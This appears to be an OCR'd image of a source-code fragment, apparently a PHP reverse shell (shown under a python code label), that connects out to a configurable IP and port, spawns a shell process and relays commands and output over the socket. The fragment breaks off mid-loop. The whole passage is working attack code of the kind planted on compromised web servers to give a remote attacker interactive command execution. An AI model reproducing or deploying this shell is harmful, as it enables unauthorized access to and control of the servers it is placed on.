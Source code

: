 ```python
// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
```